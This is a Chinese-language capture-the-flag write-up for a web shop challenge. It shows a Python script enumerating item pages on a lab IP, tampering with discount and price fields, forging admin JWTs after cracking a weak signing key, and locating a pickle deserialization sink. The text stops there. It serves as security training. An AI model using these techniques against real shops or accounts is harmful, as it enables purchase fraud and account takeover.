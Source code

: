 登陆看到

![图片](https://github.com/user-attachments/assets/7f093c34-b7f9-4664-9080-aaeda7b5f736)

然后去购买界面
因为有提示薅羊毛与逻辑漏洞
所以就是逻辑漏洞试一下

经过fuzz 只有优惠卷能改

![图片](https://github.com/user-attachments/assets/292a7a0a-4731-4c9d-aacd-ab52b31cdf0e)

改成0.1就是一折
但是这个点满怎么点呢？

![图片](https://github.com/user-attachments/assets/6fe01dc5-a4bb-4e61-8c95-c9ed25a0bcc0)


![图片](https://github.com/user-attachments/assets/ba8b7c46-ff81-4990-9666-5b710fd77165)
看到是info/4
这个是什么?EKanEhgLeJTKhBdqMwevWIenptkDoUPlQxvXesLuUkeQbuPWwAPaDMZoRdHFbSTpaHzDxCrhXgORrIYWUDcGvQDCjyEJsywuhsBA
先不管
写脚本跑出v6
import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor


b_url = "http://61.147.171.105:53808/info/"


def check_page(i):
    url = f"{b_url}{i}"
    try:
        response = requests.get(url)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            if soup.find('img', src="/static/img/lv/lv6.png"):
                print(f"Found lv6.png at: {url}")
    except requests.RequestException as e:
        print(f"Error fetching {url}: {e}")


def main():
    with ThreadPoolExecutor(max_workers=50) as executor:  
        executor.map(check_page, range(1, 10001))

if __name__ == "__main__":
    main()


![图片](https://github.com/user-attachments/assets/7f698e04-dd82-4de8-aa4f-4bbff2a2b055)

在Found lv6.png at: http://61.147.171.105:53808/info/1624

![图片](https://github.com/user-attachments/assets/5c7b59b9-aedd-46fa-891d-f4833395361c)

Price: 1145141919.0

hint:I'm flag man
价格有一点点高
改一下打折
提示操作失败买都买不了

在包里我们一直能看到一个jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3R0In0.shtaGFY4ElUWy2uZcrkuiNmRozCQcF8J96Z9zE573V8

![图片](https://github.com/user-attachments/assets/f0448c34-54cf-443e-be3a-e9e4ee85900c)
改成admin
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.U9kFejeDXwxz1jiRFypKoFCb5Sor_CWe-_gr-uqFwtE
发现伪造的不通？？？
跑一下密钥 ....是几把这个
1Kun
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo

然后买还是没反应 看个人中心是不是admin

![图片](https://github.com/user-attachments/assets/11617c2f-54a6-4742-ba31-5949aa456b0c)

![图片](https://github.com/user-attachments/assets/0d8e92a9-4af1-4a52-b7bc-c391a67225b0)
后门？
不是
![图片](https://github.com/user-attachments/assets/719b19a5-fc45-4b56-8448-fccf103d3a19)
v6啥也没有啊
我尝试加jwt再次爆破路径发现还是1246那个lv6

所以我走了一遍流程发现在购物车直接结账
改这个id=1624&price=1145141919.0&discount=0.000000001
说不定能结走

然后我就发现了/b1g_m4mber

![图片](https://github.com/user-attachments/assets/6788af58-f4a1-4b1d-9fe9-91d32e4c7a96)

然后我们拿管理员

![图片](https://github.com/user-attachments/assets/f4956a97-0e88-4a3f-94e3-616a32f473b2)
![图片](https://github.com/user-attachments/assets/b39d6539-b169-45be-a344-f4f17e322388)
![图片](https://github.com/user-attachments/assets/c9032795-6eb9-4ebc-9e0d-d2c1a145ad35)
果然后面在这 有一个源码

下载是.py 我直接警觉原型链污染

好吧是反序列化pickle.loads
![图片](https://github.com/user-attachments/assets/55cb2a64-f516-4329-aba2-bf2e37eed493)
 p = pickle.loads(urllib.unquote(become))
 





